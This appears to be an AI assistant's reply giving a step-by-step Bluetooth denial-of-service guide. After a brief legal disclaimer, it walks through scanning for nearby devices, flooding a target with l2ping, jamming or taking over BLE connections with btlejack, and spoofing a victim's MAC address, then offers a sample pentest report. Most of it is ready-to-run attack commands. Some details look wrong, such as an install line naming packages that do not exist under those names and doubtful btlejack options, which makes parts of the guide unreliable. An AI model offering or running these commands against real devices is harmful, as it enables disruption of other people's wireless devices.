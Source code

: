 
## **⚠️ LEGAL DISCLAIMER**  
Performing Bluetooth deauthentication attacks on unauthorized networks or devices **without proper authorization** is illegal and violates laws like the **Computer Fraud and Abuse Act (CFAA)** and **Telecom Acts**. Ensure you have explicit **written permission** before proceeding with any security assessments.

---

## **1. Install Required Tools**
Before starting, update your system and install Bluetooth hacking tools:

```bash
sudo apt update && sudo apt install bluez bluez-tools rfkill l2ping hciconfig hcitool git
```

Clone a Bluetooth pentesting suite:
```bash
git clone https://github.com/virtualabs/btlejack.git
cd btlejack
pip3 install -r requirements.txt
```

Enable your Bluetooth interface:
```bash
sudo rfkill unblock bluetooth
sudo systemctl start bluetooth
```

Check if your Bluetooth adapter is detected:
```bash
hciconfig
```

---

## **2. Scan for Nearby Bluetooth Devices**
You need to first identify all **active** Bluetooth devices in range.

### **🔍 Scan for Classic Bluetooth Devices (BT 2.0)**
```bash
hcitool scan
```
This will return a list of devices with their MAC addresses.

To scan **actively connected** Bluetooth devices:
```bash
hcitool con
```

### **🔍 Scan for BLE (Bluetooth Low Energy) Devices**
If you are targeting Bluetooth Low Energy (BLE) devices:
```bash
sudo hcitool lescan
```

---

## **3. Identify and Target a Device**
Once you have the target's MAC address, you can gather more information:

Get the device name:
```bash
hcitool name <MAC>
```

Check device signal strength (RSSI):
```bash
hcitool rssi <MAC>
```

Query device capabilities:
```bash
sdptool browse <MAC>
```

---

## **4. Bluetooth Deauthentication Techniques**
### **📌 Method 1: Send Continuous L2CAP Ping (Soft DoS)**
This method floods the target with L2CAP connection requests, causing **temporary disconnection**.

```bash
l2ping -i hci0 -s 600 -f <MAC>
```
- `-i hci0` → Use interface `hci0`
- `-s 600` → Send 600-byte ping packets
- `-f` → Flood mode (continuous attack)

⚠️ This will slow down or **temporarily disconnect** the target.

---

### **📌 Method 2: Use "Bluetooth Jack" (BLE Jamming)**
For BLE devices, you can use **btlejack** to jam and take over connections.

Start jamming:
```bash
btlejack -j
```
Or specify a target BLE MAC:
```bash
btlejack -t <BLE_MAC>
```

This will disrupt the BLE connection, forcing a **deauthentication-like effect**.

---

### **📌 Method 3: Bluetooth Spoofing (Disconnect Forcefully)**
You can impersonate the target device and force a re-connection (disconnecting it from its current link).

1. Change your MAC address to the victim's:
```bash
sudo bdaddr -i hci0 <TARGET_MAC>
```
2. Restart Bluetooth services:
```bash
sudo systemctl restart bluetooth
```

⚠️ This **only works on devices with weak pairing mechanisms**.

---

## **5. Generate a Pentest Report**
Once you've performed the attack, document your findings in a structured report.

### **📝 Sample Report Structure**
```
# Bluetooth Pentesting Report

## 1. Overview
- **Assessment Date:** [DATE]
- **Tester:** [YOUR NAME]
- **Scope:** Bluetooth devices within [RANGE]
- **Goal:** Identify and deauthenticate certain Bluetooth clients

## 2. Target Discovery
| Device Name | MAC Address | RSSI | Type |
|-------------|------------|------|------|
| Speaker XYZ | 00:1A:7D:DA:71:13 | -50dBm | Classic |
| Smartwatch | 48:59:29:30:23:45 | -60dBm | BLE |

## 3. Attack Execution
### 📌 **Method: L2CAP Flooding**
- Target: **00:1A:7D:DA:71:13**
- Command Used: `l2ping -i hci0 -s 600 -f 00:1A:7D:DA:71:13`
- Result: Device **disconnected temporarily** (confirmed via `hcitool con`)

### 📌 **Method: BLE Jamming**
- Target: **48:59:29:30:23:45**
- Command Used: `btlejack -t 48:59:29:30:23:45`
- Result: BLE communication **disrupted**

## 4. Conclusion
- **Security Impact:** Devices are vulnerable to denial-of-service attacks.
- **Recommendations:** Implement stronger pairing authentication and MAC address randomization.

```

---

## **Final Notes**
- **Bluetooth attacks are short-range (~10m) unless using a high-gain antenna.**
- **Some attacks might not work on newer devices with enhanced security (Bluetooth 5+).**
- **Always ensure you have legal authorization before testing.**

Would you like help formatting your report in a structured document? 🚀
